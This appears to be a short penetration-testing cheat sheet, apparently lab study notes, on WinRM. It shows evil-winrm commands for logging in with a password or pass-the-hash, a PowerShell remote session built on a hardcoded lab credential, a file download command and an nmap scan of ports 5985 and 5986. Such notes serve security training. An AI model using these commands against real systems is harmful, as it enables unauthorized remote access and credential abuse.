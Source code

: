 ```yaml
---
layout: default
---
```


# Interacting
## Connecting
```bash
# ClearPassword
$ evil-winrm -i <IP> -u <USER> -p <PASSWORD>

# PTH
$ evil-winrm -i <ip> -u <user> -H <hash>
```

## Session from Windows
```powershell
$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred
```

## Download
```
PS > download <file>
```

# Footprinting 
## Nmap WinRM
```bash
$ nmap -sV -sC 10.129.201.248 -p5985,5986 --disable-arp-ping -n
```

